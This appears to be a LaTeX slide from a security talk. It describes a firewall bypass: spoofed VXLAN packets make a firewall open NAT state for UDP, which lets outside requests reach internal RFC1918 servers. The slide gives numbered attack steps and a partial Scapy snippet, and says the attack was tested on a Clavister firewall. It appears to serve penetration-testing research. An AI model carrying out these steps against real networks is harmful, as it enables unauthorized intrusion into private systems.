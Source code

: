 \documentclass[18pt,landscape,a4paper,footrule]{foils}
\begin{document}

One interesting attack is injecting UDP from inside to create state and allow reverse UDP requests coming into server - which does NOT have public IPs

\begin{enumerate}
\item Select target: internal server, 10.0.0.10 and DNS service 53/UDP
\item Create VXLAN packet(s) with internal packet src 10.0.0.10 UDP sport 53
\item Destination for this probe is your external pentest server
\item Make sure inside packet has Ethernet destination of the firewall
\item Send spoofed VXLAN packet across internet
\item After VXLAN decap this packet is sent to the firewall, seems to come from inside
\item Firewall forwards, creates state, NATs
\item Attacker waiting for the UDP probe, notice NAT source IP and source port
\item Attacker can across regular internet send UDP request to NAT address and port
\item Probes match state and is forwarded to inside server on RFC1918 destination
\item Tested working with Clavister with DNS UDP probes/requests, no inspection \smiley
\end{enumerate}

\vskip 1cm
\centerline{May allow acess to all UDP services? Need more testing}


Send/receive UDP probe, then do another request through the open channel
\begin{alltt}\footnotesize
...
print "After fork and things"
#print data.summary()
data[0].show()

# Dissecting the packet
ip=data[0].getlayer(IP)
udp=data[0].getlayer(UDP)

# Try sending request back through - now open - channel
# Dont forget to reverse the src/dst and ports
packet=Ether(dst=routermac)/IP(src=attacker,dst=ip.src)/UDP(sport=udp.dport,dport=udp.sport)/DNS(rd=1,qd=DNSQR(qname="localhost"))
print "Sending this packet"
packet.show()
sendp(packet,loop=0)
...
\end{alltt}
\end{document}
